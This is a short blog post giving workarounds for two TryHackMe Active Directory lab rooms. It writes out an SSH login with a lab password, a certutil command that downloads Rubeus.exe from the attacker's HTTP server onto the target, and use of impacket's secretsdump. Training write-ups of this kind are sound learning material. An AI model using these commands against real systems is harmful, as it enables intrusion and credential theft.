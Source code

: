 ```yaml
---
layout: post
title:  "TryHackMe - fixes"
date:   2025-01-12 14:10:00 +1000
categories: blog
tags: [cloud, offsec]
subtitle: "Fighting old battles again?"
image: Screenshot-2025-01-13-09-42-06-TryHackMe-TAbdiukov.png
---
```


![Screenshot-2025-01-13-09-42-06-TryHackMe-TAbdiukov.png](Screenshot-2025-01-13-09-42-06-TryHackMe-TAbdiukov.png)

List of issues encountered and their corresponding bypasses / fixes

## Attacking Kerberos - Harvesting & Brute-Forcing Tickets w/ Rubeus

The middleman machine's RDP never accepts the password provided. 

Luckily, an SSH service is running on the host, atypical for Windows.

First, let's connect via SSH and confirm connectivity
```
ssh Administrator@<KerberosServer>
Password: P@$$W0rd
```

Yay! However, if SSH is utilized, there will be problems compiling software or getting Rubeus on the host as it's not connected to the internet.

Luckily, someone compiled software we need: [https://github.com/r3motecontrol/Ghostpack-CompiledBinaries](https://github.com/r3motecontrol/Ghostpack-CompiledBinaries)

On the AttackBox, open terminal tab and run the following commands,
```
mkdir share && cd share
git clone https://github.com/r3motecontrol/Ghostpack-CompiledBinaries
python3 -m http.server 8000
```

As a sanity-check, on AttackBox, open Firefox and confirm the Rubeus download URL. It should be,
```
http://<AttackBox_IP>:8000/Ghostpack-CompiledBinaries/Rubeus.exe
```

Then, we can work around connectivity issues using an old OffSec OSCP trick to infiltrate/exfiltrate data. Back to KerberosServer SSH, run:
```
cd Downloads
certutil.exe -urlcache -split -f http://<AttackBox_IP>:8000/Ghostpack-CompiledBinaries/Rubeus.exe Rubeus.exe
```

You should then see a request in the http.server logs. Now you can run Rubeus. Luckily, all required .Net Framework packages are already on the host.

## Attacktive Directory - Elevating Privileges within the Domain

I encountered issues with the operation of `secretsdump.py` (stock or modified). Maybe it's related to AttackBox, maybe it's related to impacket. However, I found an easy workaround to the problem,

```
apt install python3-impacket
```
 
you should see,

```
After this operation, 27.0 MB of additional disk space will be used.
Do you want to continue? [Y/n] y
```

now you can proceed as follows,

```
impacket-secretsdump <desired-secretsdump.py-command>
```


----------------------
Tim Abdiukov
